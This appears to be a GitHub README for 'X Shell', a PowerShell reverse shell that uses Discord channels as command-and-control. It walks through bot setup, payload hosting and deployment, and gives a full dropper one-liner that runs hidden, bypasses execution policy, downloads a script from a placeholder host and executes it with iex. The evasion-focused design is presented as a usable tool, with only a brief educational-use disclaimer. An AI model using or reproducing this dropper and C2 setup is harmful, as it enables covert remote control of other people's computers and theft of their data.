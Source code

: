 ![banner](/src/banner.png)
# X Shell: Discord-Based Reverse Shell

## Overview

X Shell is a PowerShell-based reverse shell that leverages a Discord server as its command-and-control (C2) infrastructure. It dynamically creates dedicated Discord channels for each user, enabling organized command execution and response tracking.

## Architecture

### Components

1. **PowerShell Dropper**
   - Bypasses Windows execution restrictions
   - Retrieves main script from configurable source
   - Minimal footprint for evasion

2. **Script Hosting** *(Optional but Recommended)*
   - Can use Vercel, GitHub Gist, or other hosting
   - Provides secure and fast script retrieval
   - Enables easy script updates

3. **Discord C2 Server**
   - Manages communication channels
   - Executes received PowerShell commands
   - Returns command output

## Requirements

- Discord server
- Discord bot with channel management permissions
- Hosting solution for script retrieval (optional)
- PowerShell environment

## Installation Steps

### 1. Create Discord Bot
- Visit [Discord Developer Portal](https://discord.com/developers/applications)
- Create new application
- Generate bot token
- Configure permissions:
  - Manage Channels
  - Read Messages
  - Send Messages

### 2. Script Hosting *(Recommended)*
**Option A: Vercel Deployment** (Recommended)
- Fork repository
- Deploy to Vercel
- Configure authentication tokens
- Update script serving logic

**Option B: Alternative Hosting**
- Use GitHub Gist
- Private pastebin
- Personal web server
- Ensure secure, authenticated access

### 3. Prepare Deployment
- Update script with:
  - Bot token
  - Server ID
  - Category ID
  - Script retrieval URL

### 4. Execute Dropper
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://your-script-host.com/ -H @{'Authorization'='Bearer your-token'}; iex $r.Content"
```

## Hosting Considerations

- Use HTTPS for script retrieval
- Implement token-based authentication
- Minimize script exposure
- Regularly rotate access tokens

## Additional Resources

- [Discord Server Template](https://discord.new/AFkzNqmAdmex)
- Preconfigured server with logging channels

## Security Considerations

- Implement strict authentication
- Rotate tokens regularly
- Monitor and log all activities
- Ensure compliance with legal standards

## 🚨 Disclaimer

**WARNING:** This tool is strictly for educational and authorized penetration testing purposes. Unauthorized use is illegal and may result in criminal prosecution. Always obtain explicit permission before testing.

## Contributing

1. Fork the repository
2. Create feature branch
3. Commit changes
4. Push and submit pull request

## License
GNU General Public License v3.0



## Contact

<a href="https://discord.com/users/789782857852911616"><img src="https://skillicons.dev/icons?i=discord"></a>
